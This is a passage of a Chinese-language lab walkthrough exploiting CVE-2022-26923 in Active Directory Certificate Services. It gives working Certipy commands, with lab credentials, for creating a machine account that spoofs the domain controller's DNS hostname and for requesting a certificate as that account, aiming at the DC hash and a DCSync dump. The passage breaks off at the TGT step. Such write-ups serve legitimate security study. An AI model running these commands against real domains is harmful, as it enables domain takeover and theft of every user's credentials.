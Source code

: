 为了完整地执行此漏洞利用，我们需要做以下事情：

*   在 DC 上创建一个新的计算机帐户（或机器账户）。
*   通过将我们创建的新计算机帐户的 DNSHostname 设置为与 DC 相同的 DNSHostname 来欺骗实际的 DC 计算机帐户。
*   为我们创建的“DC”计算机帐户申请新的证书。
*   使用申请到的证书发起 基于证书的 Kerberos 身份验证，以获取 TGT 票据并使用它来检索帐户的 NT 哈希。

最终，我们将获得 DC 计算机帐户（DC 机器账户）的哈希值和 TGT 票据。然后，就可以使用该哈希值进行哈希传递（或使用 TGT 票据进行 票据传递），从而执行 DCSync 攻击转储域中所有用户的哈希值。

#### **

3.1、新建特殊机器帐户

**

可以通过一条 Certipy 命令同时创建一个新的计算机帐户并设置 DNSHostname 欺骗属性，命令如下：

    certipy account create juggernaut.local/efrost:Coldheart1234@172.16.1.5 -user 'CVE-2022-26923' -dns Juggernaut-DC.juggernaut.local
    
    #新版 certipy 用法如下： 
    #certipy-ad account -target-ip 172.16.1.5 -u efrost@juggernaut.local -p Coldheart1234 -user 'CVE-2022-26923' -dns Juggernaut-DC.juggernaut.local
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183954542-475576127.png)

可以看到，帐户“CVE-2022-26923”已成功创建，密码为“xvw4DUWKOA8gr6dZ”。最重要的是，我们看到 DNSHostname 也已被成功设置。

#### **

3.2、申请证书

**

通过 Certipy 来请求被欺骗的 DC 机器账户的证书，命令如下：

    certipy req -dc-ip 172.16.1.5 juggernaut.local/'CVE-2022-26923$':xvw4DUWKOA8gr6dZ@172.16.1.5 -ca juggernaut-Juggernaut-DC-CA -template machine
    
    #新版 certipy 用法如下：
    certipy-ad req -dc-ip 172.16.1.5 -target-ip 172.16.1.5 -u 'CVE-2022-26923$'@juggernaut.local -p xvw4DUWKOA8gr6dZ -ca juggernaut-Juggernaut-DC-CA -template machine
    

![](https://img2024.cnblogs.com/blog/1503193/202506/1503193-20250607183956125-1513358180.png)

> 注：此命令一次执行不成功的话，可以等几秒钟再次去执行。或通过添加 -debug 选项查看不成功的原因。

现在，证书已被保存到 PFX 文件中。接下来，我们就可以使用它来验证并获取 DC 计算机帐户的 TGT 票据和哈希值了。

> PFX 文件采用 PKCS#12 格式，其中包含 SSL 证书（公钥）和相应的私钥。

#### **

3.3、申请 TGT 票据并检索 DC 机器帐户的哈希

**

